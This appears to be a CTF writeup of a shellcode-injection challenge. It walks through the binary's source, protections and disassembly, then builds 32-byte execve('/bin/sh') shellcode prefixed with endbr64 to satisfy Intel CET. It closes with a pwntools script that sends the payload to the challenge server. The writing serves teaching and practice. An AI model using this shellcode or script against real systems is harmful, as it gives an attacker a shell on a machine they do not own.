







<div align="center">

# 🐚 4-asm-shellcode

### Binary Exploitation Writeup · sigpwny CTF · Raw Shellcode on an Executable Stack, Past Intel CET


*PIE, Full RELRO, a stack canary, SHSTK, IBT — a wall of modern mitigations guarding a program that just executes whatever bytes you send it.*

</div>

---

## 📌 TL;DR

The binary reads 64 raw bytes into a stack buffer and then **calls that buffer as a function**. No overflow needed — the bug is simply that attacker-controlled bytes get executed directly. Despite an intimidating `checksec` output (PIE, Full RELRO, canary, SHSTK, IBT all enabled), the only mitigation that actually matters here is CET/IBT: because the buffer is reached through an *indirect* call, the first instruction of our shellcode **must** be `endbr64`, or the CPU raises a Control Protection fault before our code ever runs. Everything else on the `checksec` list is a red herring for this specific bug class.

```
shellcode: endbr64 + execve("/bin/sh", NULL, NULL) via raw syscall
length:    32 bytes, well under the 64-byte limit
```

| | |
|---|---|
| **Vulnerability class** | Direct code injection — a stack buffer is cast to a function pointer and called |
| **Constraint** | Exactly 64 bytes, read with a fixed byte count (not NUL-terminated, so `0x00` bytes are fine) |
| **The CET trap** | `call *%rdx` is indirect → shellcode must start with `endbr64` or it dies to `#CP` |
| **Goal** | `execve("/bin/sh", NULL, NULL)`, built entirely from the shellcode itself, no `.rodata` needed |
| **Solution** | 32-byte shellcode, verified locally before ever touching the remote target |

---

## 🗺️ Table of Contents

1. [Source Code](#1--source-code)
2. [Binary Protections](#2--binary-protections-checksec)
3. [Disassembly Walkthrough](#3--disassembly-walkthrough-main)
4. [Building the Shellcode](#4--building-the-shellcode)
5. [Exploit Script](#5--exploit-script)
6. [Key Takeaways](#6--key-takeaways)

---

## 🧭 Exploit Flow at a Glance



---

## 1. 📜 Source Code

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/wait.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <sys/mman.h>

#define bufsize 64

int main() {
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);

  char* resp = "Give me code:";
  write(1, resp, strlen(resp));
  char code[bufsize];
  memset(code, 0, bufsize);
  read(0, code, bufsize);

  int (*foo)() = (int(*)())code;
  foo();
}
```

### What it does, line by line

- `setvbuf(stdout, 0, 2, 0)` / `setvbuf(stdin, 0, 2, 0)` — mode `2` is `_IONBF` (unbuffered). This just disables buffering so I/O happens immediately, which matters when scripting the exploit with a tool like `pwntools` (no need to worry about flush timing).
- `write(1, resp, strlen(resp))` — prints the prompt `"Give me code:"`.
- `char code[bufsize]` — a 64-byte buffer **on the stack**.
- `memset(code, 0, bufsize)` — zeroes it first.
- `read(0, code, bufsize)` — reads **up to 64 bytes** from stdin into `code`. Note this reads an *exact byte count*, not a NUL-terminated string, so our shellcode is free to contain `0x00` bytes.
- `int (*foo)() = (int(*)())code;` then `foo();` — this is the whole challenge. It reinterprets the address of the stack buffer as a function pointer and **jumps into it**. Whatever bytes we sent are executed as raw x86-64 machine code.

There is no overflow here — `read()` never writes more than `bufsize` bytes into a `bufsize`-byte buffer. The vulnerability isn't memory corruption; it's that **attacker-controlled bytes are executed directly**. This class of bug is sometimes called "shellcode injection" or (loosely) a "trusted input executed as code" bug.

---

## 2. 🛡️ Binary Protections (`checksec`)

```
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX unknown - GNU_STACK missing
PIE:        PIE enabled
Stack:      Executable
RWX:        Has RWX segments
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```



| Protection | Status | Relevance here |
|---|---|---|
| **NX / Executable stack** | Stack is **executable** (no `GNU_STACK` header → loader defaults to RWX stack) | This is the whole point of the challenge — it's what lets `foo()` actually execute our bytes instead of segfaulting |
| **Stack canary** | Present | Irrelevant — we never overflow the buffer, so the canary is never touched |
| **PIE** | Enabled | Irrelevant to us — our shellcode is position-independent (no hardcoded absolute addresses), so ASLR doesn't matter |
| **Full RELRO** | Enabled | Irrelevant — we never touch the GOT |
| **CET: SHSTK / IBT** | Enabled | **Very relevant.** IBT means any indirect `call`/`jmp` must land on an `endbr64` instruction, or the CPU raises `#CP` and the process dies. Since `foo()` is called *indirectly* (`call *%rdx`), our shellcode's first instruction **must** be `endbr64`. |

So: no overflow needed, no ASLR bypass needed, no ROP needed. Just write shellcode, prefix it with `endbr64`, keep it ≤ 64 bytes, send it.

---

## 3. 🧩 Disassembly Walkthrough (`main`)

```asm
0000000000001100 <main>:
 11e9: endbr64                         ; CET landing pad (main is called indirectly too, via __libc_start_main)
 11ed: push   %rbp
 11ee: mov    %rsp,%rbp
 11f1: sub    $0x60,%rsp               ; stack frame: 0x60 = 96 bytes

 11f5: mov    %fs:0x28,%rax            ; load canary value from TLS (fs:0x28)
 11fe: mov    %rax,-0x8(%rbp)          ; store canary at rbp-0x8 (bottom of frame)
 1202: xor    %eax,%eax

 ; setvbuf(stdout, NULL, _IONBF, 0)
 1204: mov    0x2e05(%rip),%rax        # stdout@GLIBC_2.2.5
 120b: mov    $0x0,%ecx
 1210: mov    $0x2,%edx
 1215: mov    $0x0,%esi
 121a: mov    %rax,%rdi
 121d: call   setvbuf@plt

 ; setvbuf(stdin, NULL, _IONBF, 0)
 1222: mov    0x2df7(%rip),%rax        # stdin@GLIBC_2.2.5
 1229: mov    $0x0,%ecx
 122e: mov    $0x2,%edx
 1233: mov    $0x0,%esi
 1238: mov    %rax,%rdi
 123b: call   setvbuf@plt

 ; write(1, "Give me code:", strlen("Give me code:"))
 1240: lea    0xdbd(%rip),%rax         # "Give me code:"
 1247: mov    %rax,-0x60(%rbp)         ; resp = "Give me code:"
 124b: mov    -0x60(%rbp),%rax
 124f: mov    %rax,%rdi
 1252: call   strlen@plt
 1257: mov    %rax,%rdx                ; rdx = strlen(resp)
 125a: mov    -0x60(%rbp),%rax
 125e: mov    %rax,%rsi                ; rsi = resp
 1261: mov    $0x1,%edi                ; rdi = fd 1 (stdout)
 1266: call   write@plt

 ; memset(code, 0, 64)
 126b: lea    -0x50(%rbp),%rax         ; rax = &code  (code lives at rbp-0x50)
 126f: mov    $0x40,%edx               ; 0x40 = 64
 1274: mov    $0x0,%esi
 1279: mov    %rax,%rdi
 127c: call   memset@plt

 ; read(0, code, 64)
 1281: lea    -0x50(%rbp),%rax
 1285: mov    $0x40,%edx
 128a: mov    %rax,%rsi
 128d: mov    $0x0,%edi
 1292: call   read@plt

 ; foo = (int(*)())code;  foo();
 1297: lea    -0x50(%rbp),%rax
 129b: mov    %rax,-0x58(%rbp)         ; foo (stored at rbp-0x58) = &code
 129f: mov    -0x58(%rbp),%rdx
 12a3: mov    $0x0,%eax
 12a8: call   *%rdx                    ; <-- indirect call into our bytes

 ; epilogue / canary check
 12aa: mov    $0x0,%eax
 12af: mov    -0x8(%rbp),%rdx
 12b3: sub    %fs:0x28,%rdx
 12bc: je     12c3
 12be: call   __stack_chk_fail@plt
 12c3: leave
 12c4: ret
```

### Stack frame layout



```
rbp - 0x08   canary
rbp - 0x50   code[64]      <- our bytes go here
rbp - 0x58   foo           <- function pointer, set to &code
rbp - 0x60   resp          <- "Give me code:" pointer
```

`code` is exactly 64 bytes and `read()` never writes more than that, so there's no way to touch `foo`, the canary, or saved `rbp`/return address through this buffer. The entire "exploit" is just: control the bytes at `rbp-0x50` through `rbp-0x11` (64 bytes), because `call *%rdx` at `0x12a8` jumps straight there.

---

## 4. ⚙️ Building the Shellcode

### Goal

`execve("/bin/sh", NULL, NULL)` via a raw `syscall`, in x86-64 Linux calling convention:

| Register | Value |
|---|---|
| `rax` | `59` (`0x3b`) — syscall number for `execve` |
| `rdi` | pointer to `"/bin/sh\0"` |
| `rsi` | `0` (argv = NULL) |
| `rdx` | `0` (envp = NULL) |

### Constraint from CET/IBT



Since `call *%rdx` is an **indirect call**, the CPU's Indirect Branch Tracking will fault (`#CP` exception → crash) unless the very first instruction at the jump target is `endbr64`. This is new-ish (Intel CET) hardware/kernel enforcement that a lot of older shellcode tutorials don't account for — if you build classic shellcode without this, it segfaults even though the logic is correct.

### Building the `"/bin/sh"` string without a data section

We only have a buffer of raw bytes with no `.rodata` — the string has to be materialized by the shellcode itself. The standard trick:



- `"/bin/sh"` is 7 bytes. Padded with a NUL terminator it's exactly 8 bytes — one 64-bit register.
- As a little-endian 64-bit immediate: bytes `2f 62 69 6e 2f 73 68 00` read backwards is `0x0068732f6e69622f` → the top byte is `0x00`, which `movabs` naturally encodes as the terminator.
- Push that value onto the stack, and `rsp` now points at a valid NUL-terminated `"/bin/sh"` string in memory — no `.data` section required.
- Push a `0` first (`xor rsi,rsi; push rsi`) so there's a "clean" NUL word below the string, then push the string value on top of it. (In this case the NUL is already baked into the 8-byte immediate, so this is slightly defensive but doesn't hurt.)
- `mov rdi, rsp` gives us a pointer to that string for the `execve` call.

### Assembly (Intel syntax, GNU `as`)

```asm
.global _start
.intel_syntax noprefix

_start:
    endbr64                         # required: target of an indirect call (CET/IBT)

    xor    rsi, rsi                 # rsi = 0  (argv)
    xor    rdx, rdx                 # rdx = 0  (envp)
    push   rsi                      # push 8 zero bytes
    movabs rbx, 0x68732f6e69622f    # rbx = "/bin/sh" (little-endian, trailing 0x00 implied)
    push   rbx                      # push the string onto the stack
    mov    rdi, rsp                 # rdi = pointer to "/bin/sh"

    xor    rax, rax
    mov    al, 0x3b                 # rax = 59 (execve)
    syscall
```

### Assembling it to raw bytes

```bash
as shell_gas.s -o shell.o
ld shell.o -o shell_elf --oformat=elf64-x86-64 -e _start
objcopy -O binary --only-section=.text shell_elf shell.bin
```

Resulting disassembly (verified with `objdump -d`):

```
401000: f3 0f 1e fa                      endbr64
401004: 48 31 f6                         xor    rsi,rsi
401007: 48 31 d2                         xor    rdx,rdx
40100a: 56                               push   rsi
40100b: 48 bb 2f 62 69 6e 2f 73 68 00    movabs rbx,0x68732f6e69622f
401015: 53                               push   rbx
401016: 48 89 e7                         mov    rdi,rsp
401019: 48 31 c0                         xor    rax,rax
40101c: b0 3b                            mov    al,0x3b
40101e: 0f 05                            syscall
```



**Total size: 32 bytes** (limit is 64). No `0x00` bytes matter here since `read()` reads a fixed byte count, not a C string, so this would work even with embedded NUL bytes (which it has, as part of the `movabs` immediate).

### Local verification before touching the real target



To avoid guessing blind against the remote, I compiled a tiny local harness that reproduces `main()`'s exact behavior, built with an executable stack to match the target's protections:

```c
// test_harness.c — mirrors the challenge's main()
#include <stdio.h>
#include <string.h>
#define bufsize 64
int main() {
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  char* resp = "Give me code:";
  write(1, resp, strlen(resp));
  char code[bufsize];
  memset(code, 0, bufsize);
  read(0, code, bufsize);
  int (*foo)() = (int(*)())code;
  foo();
}
```

```bash
gcc -o test_harness test_harness.c -fno-stack-protector -z execstack -no-pie
(cat shell.bin; echo "echo IT_WORKED_$(whoami); exit") | ./test_harness
# => Give me code:IT_WORKED_root
```

Confirmed the shellcode pops a working shell before ever sending anything to the remote server.

---

## 5. 🚀 Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

# execve("/bin/sh", NULL, NULL) via raw syscall.
# Starts with endbr64 because of CET/IBT (see writeup, section 2 & 4).
shellcode = bytes.fromhex(
    "f30f1efa"               # endbr64
    "4831f6"                 # xor rsi, rsi
    "4831d2"                 # xor rdx, rdx
    "56"                     # push rsi
    "48bb2f62696e2f736800"   # movabs rbx, 0x68732f6e69622f  ("/bin/sh")
    "53"                     # push rbx
    "4889e7"                 # mov rdi, rsp
    "4831c0"                 # xor rax, rax
    "b03b"                   # mov al, 0x3b   (execve)
    "0f05"                   # syscall
)

assert len(shellcode) <= 64

import sys
if len(sys.argv) == 3:
    io = remote(sys.argv[1], int(sys.argv[2]))
else:
    io = process('./challenge')

io.recvuntil(b'Give me code:')
io.send(shellcode)
io.interactive()
```

### Usage

```bash
# local
python3 exploit.py

# remote
python3 exploit.py chal.sigpwny.com 9003
```

---

## 6. 🧠 Key Takeaways

- Not every pwn challenge needs an overflow — here the bug is "the program executes bytes you control," full stop.
- Always check `checksec` first: an executable stack with NX disabled is a strong hint the intended solution is raw shellcode, not ROP.
- Modern binaries increasingly ship with **CET (IBT/SHSTK)**. If your shellcode is reached via an indirect `call`/`jmp`, it must begin with `endbr64`, or it dies to a Control Protection fault — regardless of how correct the rest of the logic is.
- Building a local test harness that mirrors the target's vulnerable code path (and compiling with matching protections, e.g. `-z execstack`) is a fast, reliable way to validate shellcode before touching the remote instance.

---

<div align="center">

⭐ If this writeup helped you, consider leaving a star.

</div>
